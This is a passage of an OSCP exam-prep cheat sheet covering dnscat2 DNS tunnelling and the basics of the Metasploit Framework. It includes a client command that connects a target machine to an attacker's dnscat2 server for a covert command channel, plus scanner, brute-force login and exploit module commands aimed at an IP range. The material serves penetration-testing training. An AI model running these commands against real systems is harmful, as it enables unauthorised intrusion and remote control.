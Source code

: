     -   Run dnscat2:  
        ruby ./dnscat2.rb  
        dnscat2&gt; New session established: 1422  
        dnscat2&gt; session -i 1422

    -   Target Machine:  
        https://downloads.skullsecurity.org/dnscat2/
        https://github.com/lukebaggett/dnscat2-powershell/  
        dnscat --host &lt;dnscat server\_ip&gt;

<span id="_ujpvtdpc9i67" class="anchor"><span id="_Toc480741824" class="anchor"></span></span>The Metasploit Framework
======================================================================================================================

-   See [*Metasploit Unleashed
    Course*](https://www.offensive-security.com/metasploit-unleashed/)
    in the Essentials

-   Search for exploits using Metasploit GitHub framework source code:  
    [*https://github.com/rapid7/metasploit-framework*](https://github.com/rapid7/metasploit-framework)  
    Translate them for use on OSCP LAB or EXAM.

-   Metasploit

    -   MetaSploit requires Postfresql  
        systemctl start postgresql

    -   To enable Postgresql on startup  
        systemctl enable postgresql

-   MSF Syntax

    -   Start metasploit  
        msfconsole  
        msfconsole -q

    -   Show help for command  
        show -h

    -   Show Auxiliary modules  
        show auxiliary

    -   Use a module  
        use auxiliary/scanner/snmp/snmp\_enum  
        use auxiliary/scanner/http/webdav\_scanner  
        use auxiliary/scanner/smb/smb\_version  
        use auxiliary/scanner/ftp/ftp\_login  
        use exploit/windows/pop3/seattlelab\_pass

    -   Show the basic information for a module  
        info

    -   Show the configuration parameters for a module  
        show options

    -   Set options for a module  
        set RHOSTS $ip-254  
        set THREADS 10
